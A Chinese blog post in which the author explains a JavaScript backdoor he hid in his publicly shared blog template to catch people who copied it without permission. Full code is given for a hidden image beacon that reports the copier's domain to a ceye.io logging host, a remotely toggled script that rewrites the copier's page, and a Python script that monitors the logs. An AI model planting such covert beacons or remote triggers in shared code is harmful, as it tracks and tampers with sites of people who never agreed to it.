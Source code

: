 ```yaml
---
layout: post
author: Vulkey_Chen
title: "博客模板后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


# 前言

在前段时间，我在我博客的模板上加入了后门（JavaScript），今天去除，并将思路简单的写出来。

## 为什么留后门呢？

**起因**：在前不久，团队官网模板就被偷走，很让人生气，抄袭者团队（以下简称为：A）没有打一声招呼就拿走了，但可笑的是A并没有在模板中修改JavaScript文件的外链引用，而是直接使用我们的JavaScript文件，所以简单的利用JS修改了一下其主页，提醒了下他，经过后来A主动与我联系并道歉，这件事情才结束～

让我吃惊的是，这件事之后我发现我博客主题模板被拿走了，是的，不止一个哥们。

我在我的博客项目中说明了`https://github.com/gh0stkey/gh0stkey.github.io`

> 个人博客 gh0st.cn 模版来自：https://github.com/heiswayi/the-plain 在原基础上增加了分页、网易云音乐播放器等功能（做了一些排版细节上的调整），拿之前告诉我下，谢谢！

因为博客采用的是Github Pages + Jekyll，所以需要依赖于Github的进行托管，模板也就自然而然的可以直接`git clone`下来，模板也是我进行二次修改的，我觉得起码要尊重下作者，在博客主题或项目之类的进行说明，打声招呼也行，一声不吭的拿走是几个意思......

有个好兄弟说过这样一段话，望周知：

> 参考别人的研究成果著名来源是基本素质，每个人都应该构建一个和谐积极向上的氛围，知道的人不愿意分享的原因就是不被别人认可，互相认可才能进步，现在理解一些师傅的苦衷了，挺悲哀的。请各位在以后的学习生涯上，尊重别人的分享，认可他人，互相感染才能进步。

# 关于后门

我是一个“重度洁癖患者”，不喜欢自己的任何东西带上任何污点。包括对于在自己博客模板中加入后门，这对我来说是一件带有“大污点”的事情，所以思考了很久决定加上后门。

## 后门的构建

### JavaScript 后门

模板后门选择的是JavaScript外链引用，而JavaScript的内容构建步骤如下：

**1.判断是否是自己的域名（这个正则写的不严谨是可以被绕过的，例如：`gh0st.cn.bypass.cn`）：**

```javascript
var host = document.location.host; //获取host
var reg = new RegExp(/gh0st.cn/); //创建正则
var isok = reg.test(host); //匹配结果：False\True
if(!isok){//判断
	...code
}
```

**2.触发式：在一个Web服务上添加了isopen.txt这个文件，内容为NO则不触发，内容为YES则触发。（选择触发式的原因是因为博客上线有本地调试这一环节，如果在本地就触发了，那岂不是得不偿失，没有造成什么直接损害～）**

```javascript
var xhr = new XMLHttpRequest(); //创建XMLHttpRequest
xhr.onreadystatechange=function(){ //请求成功则触发
	if(xhr.responseText == "YES"){ //判断请求网站的内容是否是YES，如果是则进行下一步
		document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>"); //页面内容修改
	}
}
xhr.open("GET","http://webserver/isopen.txt",true); //请求http://webserver/isopen.txt
xhr.send(null);
```

**3.既然选择了触发式的后门，那么就需要知道是谁偷了模板，这里利用的是`ceye.io`这个平台去记录“小偷”的域名和IP之类的东西：**

```javascript
var img = document.createElement("img"); //创建img标签
img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host; //设置img标签的src属性
img.stytle.display="none"; //设置img标签的样式的display属性为none（表示这个将图片隐藏）
document.body.appendChild(img); //在DOM节点(body)内加入img标签
```

**4.在博客模板的header.html中引用了外部的JS地址`<script src="http://webserver/xxx.js">`**

完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/gh0st.cn/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host;
    img.stytle.display="none";
    document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>");
        }
    }
    xhr.open("GET","http://webserver/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
import smtplib,requests,json,urlparse,sys
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.163邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.163.com'
	smtpPort = '25'
	fromMail = '邮箱账户'
	toMail = '邮箱账户,收信方'
	username = '邮箱账户'
	password = '邮箱密码'
	reload(sys)
	sys.setdefaultencoding('utf8')

	subject = u'博客监控到有人偷模板！'
	body = u"[小偷信息]\nDomain: {0} IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=你的TOKEN&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
```

## 后门的运行

python脚本挂在服务器跑了一段时间，也发现了一个哥们又拿走了我的博客模板：

![oh,no](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-01-23/0.png)

让他"用"了一段时间，便将isopen.txt的内容改为了YES（即触发了后门），其后来也与我联系，并进行了和解。

# 写在最后的话

也是因为“重度洁癖”，决定将模板后门去除。望君尊重技术、分享、作者，共勉！
